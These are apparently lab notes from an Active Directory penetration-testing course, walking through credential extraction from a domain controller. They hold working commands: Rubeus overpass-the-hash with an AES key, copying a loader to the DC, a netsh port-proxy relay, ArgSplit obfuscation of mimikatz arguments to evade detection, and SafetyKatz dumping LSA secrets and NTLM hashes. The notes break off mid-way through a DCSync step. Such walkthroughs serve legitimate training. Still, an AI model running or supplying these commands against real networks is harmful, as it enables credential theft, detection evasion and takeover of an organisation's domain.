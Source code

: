 **==DOMAIN CONTROLLER (DC)==**
**==extracting secrets from DC==**

```
C:\AD\Tools\ArgSplit.bat
asktgt
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
We start a process with svcadmin priv
we will then copy loader.exe to DC to extract creds and also create a port forward rule
```
echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y
winrs -r:dcorp-dc cmd
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.x
```
Since we wanna extract the LSA secrets, we will use argsplit to encode lsadump::lsa
```
C:\AD\Tools\ArgSplit.bat
[!] Argument Limit: 180 characters
[+] Enter a string: lsadump::lsa
set "z=a"
set "y=s"
set "x=l"
set "w=:"
set "v=:"
set "u=p"
set "t=m"
set "s=u"
set "r=d"
set "q=a"
set "p=s"
set "o=l"
set "Pwn=%o%%p%%q%%r%%s%%t%%u%%v%%w%%x%%y%%z%"
```
then copy the content to the svcadmin session cmd one by one
and then run loader.exe
```
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "%Pwn% /patch" "exit"
```
We have the NTLM hashes with this !!!

We can also use **DCSync** attack to get aes and ntlm of krbtgt account
run another session as svcadmin
 We are using encoded argument for "lsadump::dcsync" with argsplit
```
 C:\AD\Tools\ArgSplit.bat
[!] Argument Limit: 180 characters
[+] Enter a string: lsadump::dcsync
set "z=c"
set "y=n"
set "x=y"
set "w=s"
set "v=c"
set "u=d"
set "t=:"
set "s=:"
set "r=p"
set "q=m"
set "p=u"
set "o=d"
set "n=a"
set "m=s"
set "l=l"
```